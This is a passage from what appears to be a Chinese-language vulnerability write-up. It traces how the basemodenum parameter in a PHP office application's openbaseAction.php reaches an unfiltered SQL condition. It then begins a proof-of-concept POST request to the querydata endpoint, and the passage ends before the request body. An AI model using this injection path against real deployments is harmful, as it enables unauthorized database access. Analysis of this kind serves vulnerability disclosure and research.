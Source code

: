   
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7vZkLEjPwhsDcg3QBRxPSjyek2vbneaKSBZVricbDsHjuCZf5srCFwbQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
## 漏洞点二 （存在 ip限制）  
  
### 源码分析  
  
  
webmain/task/openapi/openbaseAction.php  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7jN0Do4ZdRoS6tSBpxUEdib2VRHlYwBt7Ax64IdicmsKibKbLpAdcB1tUg/640?wx_fmt=png&from=appmsg "")  
  
  
看getpostarr()方法可以分析出 传入的post值需要为json格式  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7jNzhpTLVbYsw7hDdINQMuOT6Rz3mbt5JJC8fia1J7EyI5icbKIjJylibA/640?wx_fmt=png&from=appmsg "")  
  
  
  
继续分析下面的代码传入的参数basemodenum 赋值给了 $modenum   baseoptid参数 赋值给了 $adminid  但是经过了过滤 无法传入单引号等内容  
  
  
在21行代码中调用getuserid方法对 $adminid 参数进行了查询  并且在22行代码可以得知 需要让21行的查询获得数据 不然会直接报错终止  
  
  
根据查看sql语句可以得知 查询的内容在admin表中  分析可知 最简单方法的就是传入一个1 即可  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7ZmlUDkfepgc9bNWjKPblr54wsgtda55f9icANRkedGPrWQAQJnmqCHg/640?wx_fmt=png&from=appmsg "")  
  
  
继续分析代码 查看querydata方法获得了三个参数做了什么操作  看代码发现 在方法中将传入的 $modenum 也就是 $num 传入了initflow方法中  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7gTsqEvTuucP8ePKSXs3iac9hoe51ibz257AYswRR1la6xSItbkHqYS6A/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB79wRIOHUBkuGSiaiaUUbibiaRgDchtfyYqKU9vaoaCspF1prVicGJR6Mn51A/640?wx_fmt=png&from=appmsg "")  
  
  
继续跟进initflow方法 发现又被传入了initdata 方法中   
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7icQnIKVciaGMic9OroxPia2bA7UthOxgpgmicTniaRquWcZC6eEckEeoovicw/640?wx_fmt=png&from=appmsg "")  
  
  
在这里 $num 的值被添加到了sql的一个条件语句中被执行 其中无任何限制 这样我们就可以开始构造poc 进行利用  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7b4dCcwUBApc5fswnZjSxNCIdK3hwQGzI1CbRGvc2LsibNZedVsnbN4w/640?wx_fmt=png&from=appmsg "")  
  
  
### 漏洞利用  
  
#### poc  
  

```
POST /index.php?m=openbase%7Copenapi&d=task&a=querydata HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Cookie: 

```